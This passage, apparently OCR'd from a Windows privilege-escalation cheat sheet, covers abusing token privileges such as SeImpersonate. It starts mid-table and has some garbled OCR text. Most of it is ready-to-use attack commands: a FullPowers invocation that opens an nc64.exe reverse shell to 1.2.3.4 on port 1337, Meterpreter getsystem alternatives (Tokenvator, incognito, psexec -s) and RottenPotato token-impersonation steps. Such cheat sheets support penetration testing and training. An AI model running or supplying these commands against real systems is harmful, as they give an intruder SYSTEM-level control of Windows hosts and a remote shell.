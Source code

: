 **binaries stored in**

**"Program Files" using the**

**same privilege.**

**SeTcb Admin**

**3rd party**

**tool**

**Manipulate tokens to**

**have local admin**

**rights included. May**

**require**

**SeImpersonate.**

**To b e ve r i f i e d.**

```
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

```
c:\TOOLS>FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
```

#### Meterpreter getsystem and alternatives

```
meterpreter> getsystem
Tokenvator.exe getsystem cmd.exe
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe
psexec -s -i cmd.exe
python getsystem.py # from https://tinyurl.com/2dcqakre
```

#### RottenPotato (Token Impersonation)

**Binary available at : foxglovesec/RottenPotato and breenmachine/RottenPotatoNG**

**Exploit using Metasploit with incognito mode loaded.**

```
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```
